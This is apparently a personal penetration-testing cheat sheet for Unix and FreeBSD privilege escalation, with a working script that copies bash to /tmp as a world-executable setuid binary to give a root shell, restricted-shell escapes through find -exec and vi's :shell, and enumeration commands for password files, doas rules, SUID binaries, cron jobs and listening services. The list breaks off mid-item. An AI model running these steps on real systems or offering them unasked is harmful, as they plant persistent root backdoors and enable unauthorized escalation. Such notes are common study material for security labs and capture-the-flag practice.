 ## rootbash

```sh
#!/bin/bash
cp /usr/bin/bash /tmp/rootbash
chmod 4777 /tmp/rootbash
```

***NB***: run *rootshell* with `/tmp/rootbash -p`.

## note

- verify password re-use
- beware of weak passwords
- example of "grep" with "context": `pkg info -all | grep -B 10 -A 10 -i sendmail`

## bypass_rshell

### find

```shell
$ touch test
$ find . -name test -exec /bin/bash \;
```

### vi

```shell
$ vi
[...]
:set shell=/bin/bash
:shell
```

## FreeBSD

- enumeration kernel and OS version:
	- `uname -a`
	- `cat /etc/*release`
	- `cat /etc/issue`
- "*shadow*"
	- default permissions: 640
	- `ls -la /etc/master.passwd`
- *passwd*
	- default permissions: 644
	- identify privileged users
	- `ls -la /etc/passwd`
- *doas*
	- identify "doas.conf" file:
		- `find / -name doas.conf 2>/dev/null`
	- `type /path/to/doas.conf` - identify commands that can be executed as *root* ([https://man.openbsd.org/doas.conf](https://man.openbsd.org/doas.conf), [other good source](https://www.openbsdhandbook.com/system_management/privileges/))
	- to execute privileged command: `doas -u root <command> <arg>`
- *SUID binaries*
	- `find / -type f -perm -4000 -exec ls -l {} \; 2>/dev/null`
	- `find / -type f -perm -4000 -exec ls -l {} \; 2>/dev/null | sed "s/.*\///" | sort`
- *cron*
	- `cat /etc/crontab`
	- `cat /etc/cron.d/*`
	- `crontab -l`
- listening service
	- `sockstat -l`
- *root* running process